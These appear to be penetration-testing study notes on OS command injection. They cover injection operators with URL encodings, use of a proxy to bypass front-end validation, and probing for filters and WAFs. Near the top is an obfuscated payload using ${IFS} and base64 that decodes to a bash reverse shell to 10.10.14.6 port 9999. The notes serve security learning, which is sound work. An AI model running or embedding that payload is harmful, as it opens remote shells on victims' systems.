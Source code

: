# Command Injection(CI)
- [HackTricks](https://book.hacktricks.xyz/pentesting-web/command-injection)
- [PayLoads](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Command%20Injection)

- `echo${IFS}c2ggLWkgPiYgL2Rldi90Y3AvMTAuMTAuMTQuNi85OTk5IDA+JjEK|base64${IFS}-d |bash` Send the payload through CI

# Detection
The process of detecting basic OS Command Injection vulnerabilities is the same process for exploiting such vulnerabilities. We attempt to append our command through various injection methods. If the command output changes from the intended usual result, we have successfully exploited the vulnerability.

## Command Injection Methods
To inject an additional command to the intended one, we may use any of the following operators:

| Injection Operator | Injection Character | URL-Encoded Character | Executed Command |
|--------------------|---------------------|-----------------------|------------------|
| Semicolon          | ;                   | %3b                   | Both             |
| New Line           | \n                  | %0a                   | Both             |
| Background         | &                   | %26                   | Both (second output generally shown first) |
| Pipe               | \|                  | %7c                   | Both (only second output is shown) |
| AND                | &&                  | %26%26                | Both (only if first succeeds) |
| OR                 | \|\|                | %7c%7c                | Second (only if first fails) |
| Sub-Shell          | ``                  | %60%60                | Both (Linux-only) |
| Sub-Shell          | $()                 | %24%28%29             | Both (Linux-only) |


## Bypassing Front-End Validation
The easiest method to customize the HTTP requests being sent to the back-end server is to use a web proxy that can intercept the HTTP requests being sent by the application. To do so, we can start Burp Suite.

# Identifying Filters
## Filter/WAF Detection
This error message can be displayed in various ways. In this case, we see it in the field where the output is displayed, meaning that it was detected and prevented by the PHP web application itself. If the error message displayed a different page, with information like our IP and our request, this may indicate that it was denied by a WAF.

## Blacklisted Characters
A web application may have a list of blacklisted characters, and if the command contains them, it would deny the request. 
Let us reduce our request to one character at a time and see when it gets blocked
